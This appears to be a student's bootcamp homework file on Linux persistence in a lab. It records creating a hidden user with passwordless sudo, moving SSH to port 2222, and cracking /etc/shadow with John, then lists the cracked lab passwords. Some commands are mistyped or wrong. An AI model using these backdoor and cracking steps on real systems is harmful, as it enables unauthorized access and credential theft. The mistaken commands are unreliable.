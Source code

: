 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below
the prompt.

Save and submit the completed file for your homework submission.

\*\*Step 1: Shadow People\*\*

1\. Create a secret user named \`sysd\`. Make sure this user doesn't
have a home folder created:

- \`**useradd -M sysd\`**

2\. Give your secret user a password:

- **\`passwrd syd\`**

3\. Give your secret user a system UID \< 1000:

- \`**usermod -u 600 sysd\`**

4\. Give your secret user the same GID:

- \`**groupmod -g 600 sysd\`**

5\. Give your secret user full \`sudo\` access without the need for a
password:

- ** ran visudo and added the following line**

sysd ALL=(ALL) NOPASSWD:ALL

6\. Test that \`sudo\` access works without your password:

**su sysd**

then opened etc/password I could see all the hashes.

\`\`\`

\*\*Step 2: Smooth Sailing\*\*

1\. Edit the \`sshd_config\` file:

The way I did this was the following

su sysd

sudo nano .etc.ssh.sshd_config

removed the # from port 20 and added a line that says port 2222
underneith.

\*\*Step 3: Testing Your Configuration Update\*\*

1.** Restart the SSH service:**

- ran both

sudo service sshd restart

sudo service ssh restart

I relize I only needed to run the ssh restart.

2\. Exit the \`root\` account:

- **entered in 'exit'**

3\. SSH to the target machine using your \`sysd\` account and port
\`2222\`:

** - \`ssh sysd@192.168.6.105 -p 2222**

4\. Use \`sudo\` to switch to the root user:

- **\`sudo su root**

\*\*Step 4: Crack All the Passwords\*\*

1\. SSH back to the system using your \`sysd\` account and port
\`2222\`:

- **\`\`ssh sysd@192.168.6.105 -p 2222\`**

2\. Escalate your privileges to the \`root\` user. Use John to crack the
entire \`/etc/shadow\` file:

- \`sudo su root

cd /etc/

john sadow\`

results

sysadmin:passw0rd:18387:0:99999:7:::

student:Goodluck!:18387:0:99999:7:::

mitnik:trustno1:18387:0:99999:7:::

babbage:freedom:18387:0:99999:7:::

lovelace:dragon:18387:0:99999:7:::

stallman:computer:18387:0:99999:7:::

turing:lakers:18387:0:99999:7:::

\<iframe width="560" height="315"
src="https://www.youtube.com/embed/XsYnBXvFY6c" title="YouTube video
player" frameborder="0" allow="accelerometer; autoplay; clipboard-write;
encrypted-media; gyroscope; picture-in-picture"
allowfullscreen>\</iframe>

---

Â© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights
Reserved.
